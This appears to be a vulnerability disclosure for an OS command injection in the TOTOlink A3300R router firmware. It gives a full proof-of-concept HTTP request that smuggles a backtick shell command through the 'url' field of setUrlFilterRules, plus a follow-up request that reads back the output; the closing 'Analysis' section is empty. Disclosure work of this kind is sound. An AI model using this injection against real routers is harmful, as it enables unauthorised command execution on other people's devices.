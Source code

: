 # TOTOlink A3300R V17.0.0cu.557_B20221024 Command Injection

## Product Information

Device: TOTOlink A3300R
Firmware Version: V17.0.0cu.557_B20221024
Manufacturer's website information：https://www.totolink.net/
Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html

![image-20240109124617070](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/7/img/image-20240109124617070.png)

## Vulnerability Description

When deal with  `setUrlFilterRules` request,`url` parameter is vulnerable to OS command injection.

### POC

```
POST /cgi-bin/cstecgi.cgi?token=14059020E1AF92EC HTTP/1.1
Host: itotolink.net
Content-Length: 90
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://itotolink.net
Referer: http://itotolink.net/advance/urlf.html?token=14059020E1AF92EC
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

{"url":"funny-mud-peee`ls>/web/cmdi9.txt`","addEffect":"1","topicurl":"setUrlFilterRules"}
```

injection the command "ls>/web/cmdi9.txt"

![image-20240119133213218](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/9/img/image-20240119133213218.png)

check the result.

```
GET /cmdi9.txt HTTP/1.1
Host: itotolink.net
If-Modified-Since: Mon, 24 Oct 2022 09:43:03 GMT
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Accept: text/css,*/*;q=0.1
Referer: http://itotolink.net/advance/urlf.html?token=14059020E1AF92EC
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

```

![image-20240119133218122](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/9/img/image-20240119133218122.png)

## Analysis



